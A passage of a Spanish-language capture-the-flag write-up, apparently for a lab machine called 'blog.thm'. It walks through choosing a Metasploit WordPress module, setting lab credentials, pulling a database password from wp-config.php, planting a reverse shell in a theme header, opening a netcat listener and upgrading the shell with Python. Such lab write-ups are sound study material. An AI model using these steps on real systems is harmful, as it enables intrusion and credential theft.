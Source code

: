 ````
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi


Interact with a module by name or index. For example info 13, use 13 or use auxiliary/scanner/http/wp_registrationmagic_sqli

msf6 > use 0

````
He usado el 0 ya que he buscado para que sirve cada exploit y ese solo se usaba cuando el user tenia privilegios de imagenes solamente, despues he suado los siguientes comandos para poder continuar

````
set LHOST <tu ip tun0>
set RHOST <blog.thm>
SET PASSWORD cutiepie1
set USERNAME kwheel
````
ya estamos dentro hacemos un -h para saber los comandos que podemos usar y vemos el downloaddentro del home podemos ver que hay un suer qu se llama bjoel y dentro hay un user.txt y Billy_Joel_Termination_May20-2020.pdf

usamos:

````bash
download user.txt
download Billy_Joel_Termination_May20-2020.pdf
````
pero al abrirlos no hay nada de info en ninguno

he estado buscando y habia opcion de buscar passwords con linpeas.sh pero yo lo he hecho manualmente buscando en la carpeta donde está ubicado el wordpres, concretamente en el apartado:

/var/www/wordpress y me he descargado wp-settings.php

wp-config.php
El más importante. Contiene las credenciales de acceso a la base de datos y a veces otras claves:

Contra que hay ahí dentro: 
````
LittleYellowLamp90!@
````

Entonces dentro de Temas he metido la reverse shell de antes y esta vez si funciona, yo lo he metido en header mismo para que funcione, recuerda estar en esucha con:

````bash
nc -lvnp <puesrt>
````
Para que la consola se vea mejor he usado este comando:
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
## Escalada de Privilegios - SUID
